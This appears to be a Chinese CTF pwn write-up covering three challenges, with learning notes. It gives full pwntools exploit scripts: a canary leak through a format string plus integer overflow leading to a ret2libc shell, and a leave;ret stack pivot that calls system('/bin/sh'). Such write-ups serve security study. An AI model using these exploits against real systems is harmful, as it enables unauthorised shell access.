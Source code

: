 
### 第一题

#### 考点：文件描述符，close(1)关闭了文件输出，close(2)关闭了文件错误输出

因为关闭了文件显示但是存在系统调用函数。
直接输入exec 1>&2就行
![[Pasted image 20240910232807.png]]

![[Pasted image 20240910232816.png]]

### 第二题

#### 考点：考察的canary泄露和有符号转无符号导致的整数溢出（ int (-1) --> unsigned int(1) ）

#### 附件：

![[Pasted image 20240923211731.png]]
![[Pasted image 20240923211745.png]]
主函数是第一张图，第二张是get_n的函数，这个函数的作用是输入字符串，atoi函数是将字符串转化为整数，溢出在第二个get_n函数，如果v1是-1的话，v1在主函数声明的是int，但是在get_n的函数里面的是声明的unsigned int，强制转换-1为unsigned int会变成非常大的数。

第三张图里面是一个格式化字符串漏洞。用来泄露canary。

思路是：利用输入的是-1造成整数溢出。然后在泄露canary，然后构造rop泄露基地址，最后调用system。

##### !!!疑问

在构建exp的时候我遇到了一些问题，在发送‘-999’的时候，如果围我用是send()那么我接收不到gift,用的是sendline()的话那就可以得到。

![[Pasted image 20240923211833.png]]

在发送‘|%7$p’的时候，如果围我用是send()那么我接收不到canary,用的是sendline()的话那就可以得到。
![[Pasted image 20240923211757.png]]

还有就是主函数里面的输入函数只有3个，getchar()函数是用来处理换行符的，不是输入的。

atoi函数是将字符串转化为整数（int）的函数。

![[Pasted image 20240923211807.png]]

我在接收泄露的真实地址的时候发现一直接收的是同一个地址，发现不对。经过与exp  
对比后发现是自己粗心，没有将程序中的输出的字符串接收。所以才导致一直是接受的是同一个地址。

只需要在sendline的后面加上recvline就可以将输出的字符串接收就行。然后就发现就可以打通了。


![[Pasted image 20240923211846.png]]


```
from pwn import*
from LibcSearcher import *
p=remote("hnctf.yuanshen.life",34702)
# p=process('./idea')
libc=ELF('./idea')
context(os='linux', arch='i386', log_level='debug')
main=libc.sym['main']
put_plt=libc.plt['puts']
main_got=libc.got['__libc_start_main']
p.recvuntil(b"read? ")
pay=b'-9'
p.sendline(pay)
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b'|')
canary=int(p.recv(10),16)
print(hex(canary))
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(put_plt),p32(main),p32(main_got))
p.recvuntil(b"data!\n")
p.sendline(pay)

p.recvline()

main_addr=u32(p.recv(4))
Libc = LibcSearcher("__libc_start_main",main_addr)
log.success('leak_atoi_real_addr => {}'.format(hex(main_addr)))

libcbase = main_addr - Libc.dump('__libc_start_main')
system_addr = libcbase + Libc.dump('system')
str_bin_sh = libcbase + Libc.dump('str_bin_sh')

p.recvuntil(b"read? ")
pay=b'-9'
p.sendline(pay)
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b"data!\n")
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(system_addr),p32(0),p32(str_bin_sh))
p.sendline(pay)
p.interactive()
```



### 第三题

#### 考点：栈溢出至rbp，然后靠函数退出的leave;retn进行栈迁移

#### 附件：

![[../../Pasted image 20250930132314.png]]


![[../../Pasted image 20250930132625.png]]

![[../../Pasted image 20250930131441.png]]

![[../../Pasted image 20250930131534.png]]

![[../../Pasted image 20250930131955.png]]

```
0xffd30358-0xffd30320=0x38
这就是rbp到数据输入的初始地址的距离
```

首先是泄露rbp指向的地址里面的地址，然后布置栈帧

这个题目从反汇编看起来只能溢出到rbp，溢出不到ret
```python
from pwn import *

p = process("./pwn")

leave_ret = 0x08048669

system_addr = 0x08048400

  

p.send(b"a"*0x2B+b'b')

p.recvuntil(b'b')

ebp_addr = u32(p.recv(4))

print(hex(ebp_addr))

stack = ebp_addr-0x38

  

payload = p32(0xdeadbeef)+p32(system_addr)+p32(0xdeadbeef)+p32(stack+0x10)+b"/bin/sh\x00"

payload = payload.ljust(0x2C,b'a')

payload += p32(stack)+p32(leave_ret)

p.send(payload)

p.interactive()

  

"""

1.为什么要用 send 发送最后的 b? 为什么sendline 不行？
![[../../待整理文件/send_and_sendline|send_and_sendline]]

2.为什么能够接收 rbp 的值,这个值是指什么？
got it，打印出来的是rbp指向地址中的地址
3.栈的距离怎么算的？为什么是 0x38?
got it,如上图栈空间计算

"""
```

```markdown
​
4.为什么 system 的地址要用plt 表，为什么直接用 system 地址不行？

1. call system指令的本质是 “带上下文的调用”​
   
- 该call指令的下一条指令（add esp, 4）会在调用结束后修正栈指针,如果你直接跳转到这个call_system指令的地址，程序会执行这次调用，但此时栈上的参数是原程序的参数（可能不是你想要的/bin/sh），且调用结束后会按照原程序的逻辑继续执行（add esp, 4等），无法控制后续流程。​

2. PLT 表地址是system函数的 “纯净入口”​

- 调用system@plt时，参数需要由攻击者自己控制（按照 C 语言函数调用约定，参数需要压在栈上，位于返回地址之后）。这意味着你可以在栈上构造/bin/sh字符串的地址作为参数，让system执行你想要的命令。​

1. 动态链接的 “重定位” 特性
- 而程序中已有的call_system指令，其本质是对system@plt的一次调用（汇编层面可能直接编码为call system@plt），但它本身是一个固定的指令地址，不具备 “找到system实际地址” 的能力 —— 你跳转到这个call指令，本质上还是间接依赖 PLT 表，但多了一层不必要的上下文限制。​

总结​
- 直接跳转到call system指令，相当于 “借用” 程序中已有的一次system调用，但你无法自由控制参数和后续流程；​

- 跳转到system@plt，相当于 “直接调用system函数”，你可以完全控制参数（比如传入/bin/sh）和执行流程，这正是 PWN 攻击需要的。​
```

